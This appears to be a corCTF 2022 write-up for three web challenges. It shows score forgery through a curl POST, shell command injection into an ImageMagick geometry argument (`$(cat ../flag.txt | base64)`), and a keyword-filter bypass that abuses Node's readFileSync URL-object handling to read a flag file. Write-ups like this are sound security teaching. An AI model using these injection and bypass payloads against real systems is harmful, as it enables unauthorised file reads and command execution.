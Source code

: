 # Cor CTF 2022 - Web 
------------------------

## Json Quiz
#### about :
- Type: web 
- Level: easy
- Points : 104

<center><img src="../images/jsonquiz.png"></center>

Going to https://jsonquiz.be.ax/ , inspecting the javascript source code i found this form : 
```javascript
    // TODO: implement scoring somehow
    // kinda lazy, ill figure this out some other time

    setTimeout(() => {
        let score = 0;
        fetch("/submit", {
            method: "POST",
            headers: {
                "Content-Type": "application/x-www-form-urlencoded"
            },
            body: "score=" + score
        })
        .then(r => r.json())
        .then(j => {
            if (j.pass) {
                $("#reward").innerText = j.flag;
                $("#pass").style.display = "block";
            }
            else {
                $("#fail").style.display = "block";
            }
        });
    }, 1250);
```
What it does is check send the final score to backend to check if the score enough to  get a reward (flag) , the questions numbered 20 ,sending the perfect mark gives the 

flag : 
    curl https://jsonquiz.be.ax/submit -d "score=20"

result : 
    {"pass":true,"flag":"corctf{th3_linkedin_JSON_quiz_is_too_h4rd!!!}"}


## Msfrog Generator: 
#### about :
- Type: web 
- Level: easy
- Points : 109

<center><img src="../images/msfrog_generator.png"></center>

if we visit the website it look like this : 

<center><img src="../images/msfrog.png"></center>

the generate button send a POST request to /api/generate with the body: 

> [{"type":"mseyes.png;","pos":{"x":0,"y":0}}]

trying to change the type i got this error : 
> I wont pass a non existing image to a shell command lol

trying to mess with x position `x=ls` : 

> Something went wrong :
> b"convert-im6.q16: invalid argument for option `-geometry': +ls+0 @ error/convert.c/ConvertImageCommand/1672.\n"

it seems to be the beckend takes the type and x , y as key  arguments to be supplimented to a binary called convert-im6, let try some command injection with `x:"$(id)"` : 

> b"convert-im6.q16: invalid argument for option `-geometry': +uid=33(www-data) @ error/convert.c/ConvertImageCommand/1672.\n"

it works !! , i found the flag in `../flag.txt` with the payload `x:"$(cat ../flag.txt | base64)"` : 

flag : corctf{sh0uld_h4ve_r3nder3d_cl13nt_s1de_:msfrog:}

## Simple waf
#### about :
- Type: web 
- Level: meduim
- Points : 209

<center><img src="../images/simplewaf.png"></center>

in the [source](../src/dist) code we have this code : 

```javascript
app.use((req, res, next) => {
    console.log(JSON.stringify(req.query));
    if([req.body, req.headers, req.query].some(
        (item) => item && JSON.stringify(item).includes("flag")
    )) {
        return res.send("bad hacker!");
    }
    next();
});

app.get("/", (req, res) => {
    try {
        res.setHeader("Content-Type", "text/html");
        res.send(fs.readFileSync(req.query.file || "index.html").toString());       
    }
    catch(err) {
        console.log(err);
        res.status(500).send("Internal server error");
    }
});
```

in the  node js documentation the function `fs.readFileSync` path argument can be : 
> path string | Buffer | URL | integer filename or file descriptor
we are going to exploit the fact that path can be a URL object , and since its a json format , we only need to set attribute , the URL class have special atribute :

```js
x= new URL('file://flag.txt')
console.log(x);
-> 
URL {
  href: 'file://flag.txt/',
  origin: 'null',
  protocol: 'file:',
  username: '',
  password: '',
  host: 'flag.txt',
  hostname: 'flag.txt',
  port: '',
  pathname: '/',
  search: '',
  searchParams: URLSearchParams {},
  hash: ''
}
```
the payload wil then be 
> `file[href]=file://fl%2561g.txt/&file[origin]=x&file[protocol]=file:&file[hostname]=&file[pathname]=fl%2561g.txt&file[host]=fl%2561g.txt`

flag : corctf{hmm_th4t_waf_w4snt_s0_s1mple}